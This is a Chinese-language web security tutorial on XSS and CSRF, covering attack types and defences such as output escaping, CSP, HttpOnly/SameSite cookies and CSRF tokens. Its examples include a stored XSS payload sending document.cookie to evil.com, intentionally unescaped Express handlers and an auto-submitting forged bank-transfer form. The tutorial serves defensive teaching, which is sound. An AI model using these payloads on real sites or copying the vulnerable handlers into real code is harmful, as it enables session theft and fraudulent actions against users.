


# 什么是XSS和CSRF，有哪些类型，怎样预防

## 一、XSS（跨站脚本攻击）

### 1. 概述

XSS（Cross-Site Scripting）是一种代码注入攻击，攻击者在网页中注入恶意脚本，当其他用户浏览该网页时，嵌入其中的脚本会被执行。



### 2. 攻击类型

#### 反射型XSS

```javascript
// 恶意URL
https://example.com/search?q=<script>alert('XSS')</script>

// 服务端直接返回
app.get('/search', (req, res) => {
  const { q } = req.query;
  res.send(`搜索结果: ${q}`);  // 危险！未转义
});

// 攻击者构造链接诱导用户点击
```

#### 存储型XSS

```javascript
// 攻击者在评论区提交恶意内容
const comment = '<script>document.location="http://evil.com?c="+document.cookie</script>';

// 服务端存储并展示
app.post('/comment', (req, res) => {
  const { content } = req.body;
  db.saveComment(content);  // 存储到数据库
});

// 其他用户查看时执行恶意脚本
app.get('/comments', (req, res) => {
  const comments = db.getComments();
  res.render('comments', { comments });  // 危险！未转义
});
```

#### DOM型XSS

```javascript
// 前端直接使用用户输入
const hash = location.hash.slice(1);
document.getElementById('output').innerHTML = hash;  // 危险！

// 攻击URL
https://example.com#
```

### 3. 预防措施

#### 输入过滤

```javascript
const sanitizeInput = (input) => {
  const map = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;'
  };
  return input.replace(/[&<>"'/]/g, char => map[char]);
};

const userInput = '<script>alert("XSS")</script>';
const safe = sanitizeInput(userInput);
// '&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;'
```

#### 使用CSP（内容安全策略）

```html
<meta http-equiv="Content-Security-Policy" content="
  default-src 'self';
  script-src 'self' https://trusted.cdn.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
">
```

```javascript
// Express设置CSP
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'"
  );
  next();
});
```

#### HttpOnly Cookie

```javascript
// 设置Cookie
res.cookie('sessionId', 'abc123', {
  httpOnly: true,  // JavaScript无法读取
  secure: true,    // 仅HTTPS传输
  sameSite: 'strict'  // 防止CSRF
});
```

#### 使用安全的框架API

```jsx
// React自动转义
const UserComment = ({ text }) => {
  return <div>{text}</div>;  // 自动转义，安全
};

// 避免使用dangerouslySetInnerHTML
const Dangerous = ({ html }) => {
  return <div dangerouslySetInnerHTML={{ __html: html }} />;  // 危险！
};

// 使用DOMPurify清理HTML
import DOMPurify from 'dompurify';
const SafeHTML = ({ html }) => {
  return <div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(html) }} />;
};
```

## 二、CSRF（跨站请求伪造）

### 1. 概述

CSRF（Cross-Site Request Forgery）是一种挟制用户在当前已登录的Web应用程序上执行非本意操作的攻击方法。



### 2. 攻击示例

#### GET请求攻击

```html
<!-- 恶意网站页面 -->

```

#### POST请求攻击

```html
<!-- 恶意网站页面 -->
<form action="http://bank.com/transfer" method="POST" id="stealForm">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>document.getElementById('stealForm').submit();</script>
```

### 3. 预防措施

#### CSRF Token

```javascript
// 服务端生成Token
const generateCSRFToken = () => {
  return crypto.randomBytes(32).toString('hex');
};

// 设置Token到Session和响应
app.get('/form', (req, res) => {
  const csrfToken = generateCSRFToken();
  req.session.csrfToken = csrfToken;
  res.render('form', { csrfToken });
});

// 验证Token
app.post('/submit', (req, res) => {
  const { csrfToken } = req.body;
  if (csrfToken !== req.session.csrfToken) {
    return res.status(403).send('CSRF Token验证失败');
  }
  // 处理请求
});
```

```html
<!-- 前端表单携带Token -->
<form action="/submit" method="POST">
  <input type="hidden" name="csrfToken" value="<%= csrfToken %>" />
  <!-- 其他字段 -->
</form>
```

```javascript
// Axios配置CSRF Token
axios.defaults.headers.common['X-CSRF-Token'] = csrfToken;
```

#### SameSite Cookie

```javascript
// 设置SameSite属性
res.cookie('sessionId', 'abc123', {
  sameSite: 'strict'  // 或 'lax'
});

// Strict: 完全禁止第三方Cookie
// Lax: 允许GET请求携带第三方Cookie
// None: 允许所有请求携带（需要配合Secure）
```

#### 验证Referer/Origin

```javascript
app.post('/api/sensitive', (req, res) => {
  const origin = req.get('Origin') || req.get('Referer');
  
  if (!origin || !origin.startsWith('https://mysite.com')) {
    return res.status(403).send('非法请求来源');
  }
  
  // 处理请求
});
```

#### 双重Cookie验证

```javascript
// 前端发送请求时携带Cookie中的Token
const csrfToken = getCookie('csrfToken');
fetch('/api/action', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': csrfToken
  },
  body: JSON.stringify(data)
});

// 服务端验证
app.post('/api/action', (req, res) => {
  const cookieToken = req.cookies.csrfToken;
  const headerToken = req.headers['x-csrf-token'];
  
  if (!cookieToken || cookieToken !== headerToken) {
    return res.status(403).send('CSRF验证失败');
  }
  
  // 处理请求
});
```

## 三、XSS vs CSRF 对比

| 特性 | XSS | CSRF |
|-----|-----|------|
| 攻击方式 | 注入恶意脚本 | 伪造用户请求 |
| 攻击目标 | 获取用户信息 | 执行用户操作 |
| 是否需要用户交互 | 不一定 | 需要 |
| 是否能获取Cookie | 能 | 不能（只能利用） |
| 防御方式 | 转义、CSP、HttpOnly | Token、SameSite、验证来源 |

## 四、综合防御方案

```javascript
const express = require('express');
const cookieParser = require('cookie-parser');
const csrf = require('csurf');
const helmet = require('helmet');

const app = express();

// 安全中间件
app.use(helmet());  // 设置各种安全头
app.use(cookieParser());

// CSP设置
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'"
  );
  next();
});

// CSRF保护
const csrfProtection = csrf({ cookie: true });
app.use(csrfProtection);

// 提供CSRF Token
app.get('/api/csrf-token', (req, res) => {
  res.json({ csrfToken: req.csrfToken() });
});

// 安全的Cookie设置
app.use((req, res, next) => {
  res.cookie('sessionId', generateSessionId(), {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'strict',
    maxAge: 24 * 60 * 60 * 1000
  });
  next();
});

// 输入验证和转义
const sanitize = (input) => {
  return input
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
};
```

## 五、总结

| 攻击类型 | 核心原理 | 主要防御方式 |
|---------|---------|-------------|
| 反射型XSS | URL参数注入 | 输入转义、CSP |
| 存储型XSS | 数据库存储恶意脚本 | 输入过滤、输出转义 |
| DOM型XSS | 前端DOM操作注入 | 避免innerHTML、转义 |
| CSRF | 伪造用户请求 | Token、SameSite、验证来源 |

**核心要点：**
1. XSS防御：输入过滤、输出转义、CSP、HttpOnly
2. CSRF防御：CSRF Token、SameSite Cookie、验证Referer
3. 使用安全框架和中间件
4. 保持依赖更新，修复安全漏洞
